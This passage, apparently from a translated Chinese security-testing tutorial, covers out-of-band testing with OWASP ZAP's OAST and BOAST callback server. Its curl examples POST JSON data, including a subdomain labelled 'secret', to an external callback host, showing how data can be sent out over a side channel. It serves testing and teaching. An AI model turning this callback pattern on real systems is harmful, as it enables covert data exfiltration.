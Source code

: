 图 11.14 – 一个 curl 请求

1.  ZAP 现在将按照你设置的频率轮询该服务器，并报告所有交互（DNS、HTTP 等）。要查看有效载荷 URI，请打开信息窗口中的`OAST`标签，如*图 11.5*所示：

![图 11.15 – BOAST](img/Figure_11.15_B18829.jpg)

图 11.15 – BOAST

我们还可以通过 curl 发送其他数据，以查看在 OAST 轮询中捕获了什么。

1.  这里是一个发送`POST`请求的 curl 请求示例，包含一个简单的头部且没有数据：

    ```
    curl -X POST -H "Content-Type: application/json" ij6azkfsiavavsmrjqpmj3pq54.odiss.eu
    ```

`-X` 标志指定要使用的 HTTP 方法——在本例中为`POST`。`-H` 标志用于设置自定义头部——在本例中，`Content-Type` 头部设置为`application/json`，以表明请求体包含 JSON 数据。你还可以使用`--data`或**-d 标志**来包含请求体，例如：

```
 curl -X POST -H "Content-Type: application/json" -d '{"key": "value"}' secret.ij6azkfsiavavsmrjqpmj3pq54.odiss.eu
```

这发送了一个带有 JSON 编码请求体的`POST`请求，其中包含`{"key": "value"}`数据，如*图 11.6*所示：

![图 11.16 – 一个带有秘密的 curl 请求示例](img/Figure_11.16_B18829.jpg)

图 11.16 – 一个带有秘密的 curl 请求示例

## 它是如何工作的…

跨信道攻击发生在攻击者使用与受害者不同的通信路径时。这使得攻击者能够更容易地访问敏感数据或系统，因为它可以帮助他们绕过主通信路径上的任何安全措施。

